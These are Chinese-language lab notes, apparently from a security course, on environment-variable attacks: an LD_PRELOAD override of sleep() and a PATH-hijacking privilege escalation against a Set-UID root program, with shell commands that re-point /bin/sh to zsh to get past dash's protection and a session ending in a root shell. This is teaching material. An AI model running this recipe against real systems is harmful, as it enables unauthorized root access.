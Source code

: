 # 第二章实验

## 实验1 介绍环境变量

environ.c 程序可以打印进程中所有的环境变量


## 通过动态连接进行的攻击

mytest.c 是一个调用了 sleep()函数的程序，但可通过将sleep.c编译成动态链接库，并export到LD_PRELOAD从而使mytest程序不能正常运行


	使mytest成为Set-UID程序之后，会发现在保护机制的保护下仍可正常运行


```sh
	$ gcc -c sleep.c
	$ gcc -shared -o libmylib.so.1.0.1 sleep.o
	$ export LD_PRELOAD=./libmylib.so.1.0.1
```

## 通过外部程序进行的攻击

	由于dash的保护措施，将/bin/sh指向/bin/zsh来保证实验效果

` $ sudo ln -sf /bin/zsh /bin/sh `


实验结束后记得使用 ` $ sudo ln -sf /bin/dash /bin/sh `将sh改回来

```sh
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ gcc -o vul vul.c
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ sudo chown root vul
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ sudo chmod 4755 vul
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ ./vul 
      十二月 2020        
日 一 二 三 四 五 六  
       1  2  3  4  5  
 6  7  8  9 10 11 12  
13 14 15 16 17 18 19  
20 21 22 23 24 25 26  
27 28 29 30 31        
                    
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ gcc -o cal cal_attack_vul.c 
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ export PATH=.:$PATH
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
yuan@ubuntu:~/learningNotes/Lab/Cap2_env$ ./vul 
bash-4.4# id
uid=1000(yuan) gid=1000(yuan) euid=0(root) 组=1000(yuan)
```
